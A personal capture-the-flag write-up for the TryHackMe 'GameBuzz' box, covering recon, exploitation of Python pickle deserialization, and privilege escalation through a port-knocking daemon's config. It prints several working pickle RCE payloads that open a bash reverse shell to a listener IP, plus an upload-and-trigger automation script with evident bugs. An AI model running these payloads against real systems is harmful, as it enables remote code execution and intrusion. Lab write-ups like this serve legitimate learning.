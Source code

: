 # GameBuzz Helped-Through

Name: GameBuzz
Date:  
Difficulty:  Hard
Goals:  
- Pythonic Expertise
- requests library brain scarring needs to occur 
Learnt:
Beyond Root:
- Finish [[Racetrack-Bank-Helped-Through]] python script and another for this box - combine requests

Need to some THM, but I also need to figure out a best in slot FTP server for CTFs (build and tear down) and one that is a most secure for just in case and for one of the Beyond Root challenges for [[Kotarak-Helped-Through]]. I decided that I have not done a Alh4zr3d stream in a week so I also need to improve my Python so I chose [Cthulhu Cthursday: TryHackMe's "GameBuzz" and "Python Playground"](https://www.youtube.com/watch?v=AqNKLu_y6H8). I also need to do some execise in the intervals. This Helped-Through is paired with [[Python-Playground-Helped-Through]]. 

Apparently these are malders. I here to learn to boulder the malders one day.

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)

![](nmapcustomjs.png)

![](incognitoemail.png)

![](fuzzthehostbeforeal.png)

![](gbthedev.png)

![](secretupload.png)

![](thesecretuploadpage.png)

![](supsource.png)

This is just the message of uplaod
![](insiderthesupdir.png)

## Exploit

Where did your upload go?

Al fixates on this:
![](fetch.png)

![](sendRequest.png)

![](fetchingstuff.png)

A .pkl - PKL file is a file created by pickle, a Python module that enabless objects to be serialized to files on disk and deserialized back into into the program at runtime [Ref](https://fileinfo.com/extension/pkl)
![](pickles.png)

To un-pickle the data you can: [Ref](https://stackoverflow.com/questions/24906126/how-to-unpack-pkl-file)
```python
import pickle


with open('serialized.pkl', 'rb') as f:
    data = pickle.load(f)
```

Requesting a review we get a pickled object
![1080](requestareview.png)

Before you do `pickle.load()` there is no way to know what are you deserializing 

Alh4zr3d's pickle exploit code - improved by me
```python
import pickle, base64, os

class RCE:
# Initialize the object creation with reduce method
    def __reduce__(self):
        IP = "10.10.10.10"
        PORT = 1337
        cmd = f"/bin/bash -c 'exec bash -i &>/dev/tcp/{IP}/{PORT} <&1'"
        # OS system needs to return tuple
        return os.system, (cmd,)


if __name__ == "__main__":
    pickled = pickle.dumps(RCE())
    print(base64.b64encode(pickled))
```

Dumping to a file version of the expoit
```python
import pickle, base64, os


class RCE:
    def __reduce__(self):
        cmd = ("/bin/bash -c 'exec bash -i &>/dev/tcp/10.14.43.145/1337 <&1'")
        return os.system, (cmd,)


if __name__ == "__main__":
    with open('badpickle.pkl', 'wb') as f:
        pickle.dump(RCE(),f)
    # Test with:
    #with open('badpickle.pkl', 'rb') as f:
    #    data = pickle.load(f)

```

![](badpickles.png)

![](pulloutthebadpickle.png)

## Foothold

![](wearein.png)

![](dev1anddev1indevshm.png)

![](bash_historyforthesu.png)

![](nopasswords.png)

We have lxc
![](justinb4al.png)

Root is difently checking Lxc related clust stuff
![](lxcenum.png)

## PrivEsc

I do not think I have had one of these:
![](yougotmail.png)

Change of password
![](changeofpasswd.png)

It is just the hash for password
![](passwordequalspassword.png)

Wow Chat solves my most hated CTFy thing that does not exist in the real world -  port knock
```bash
/etc/knockd.conf
/var/log/knockd.log
```

knockd.conf
```bash
[options]
        logfile = /var/log/knockd.log

[openSSH]
        sequence    = 5020,6120,7340
        seq_timeout = 15
        command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
        tcpflags    = syn

[closeSSH]
        sequence    = 9000,8000,7000
        seq_timeout = 15
        command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j REJECT
        tcpflags    = syn
```

I would not have got this.

```bash
nc incognito.com 5020
nc incognito.com 6120
nc incognito.com 7340
```

![](sshisopen.png)

` Password or dc647eb65e6711e155375218212b3964`
its the hash...
![](dev1inthrough.png)

Al thinks port knocking and security by obsurity is underrated. `lsattr` is a known command off the of my dome. We can write to the .conf, but `getfacl` get the file ACL get the file ACL.
![](lsattrforftw.png)

Edit
![](69171337.png)

```bash
sudo /etc/init.d/knockd restart
```

```bash
nc incognito.com 69
nc incognito.com 15
nc incognito.com 1337
```

![](root.png)

## Beyond Root

In conclusion I am beating Al to things, but learnt alot about something I have vaguely remember doing. I would not have got the port knocking.vim 

```python
import pickle
import base64
import os
import requests


class RCE:
    def __reduce__(self):
        cmd = ("/bin/bash -c 'exec bash -i &>/dev/tcp/10.14.43.145/1337 <&1'")
        return os.system, (cmd,)


if __name__ == "__main__":
    upload_url = 'http://dev.incognito.com/secret/upload/script.php'
    upload_headers = {"Origin": "http://dev.incognito.com", "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryhRH7hk3w4JzAzsFj"}
    rshell_url = 'http://incognito.com/fetch'
    rshell_headers = {"Host":"incognito.com", "X-Requested-With": "XMLHttpRequest", "Content-Type": "application/json", "Origin": "http://incognito.com", "Referer": "http://incognito.com/"}
    bad_pickle_obj = {"object":"/var/upload/badpickle.pkl"}
    boundary = "----WebKitFormBoundaryhRH7hk3w4JzAzsFj"

    with open('badpickle.pkl', 'wb') as f:
        pickle.dump(RCE(),f)

    file = open("badpickle.pkl", "rb")

    body = "--" + boundary + "\r\n"
    body += "Content-Disposition: form-data; name=\"the_file\"; filename=\"badpickle.pkl\"\r\n"
    body += "Content-Type: application/octet-stream\r\n\r\n"
    body += file.read() + "\r\n"
    body += "--" + boundary + "--\r\n"
    file.close()

    try:
        upload_response = requests.post(upload_url, headers=upload_headers, data=body)
        if upload_response.status_code == 200:
            print("File uploaded successfully")
        else:
            print("File upload failed")
    except requests.exceptions.RequestException as e:
        print(e)

    get_shell_response = request.post(rshell_url, upload_headers,data=body)
    exit()
```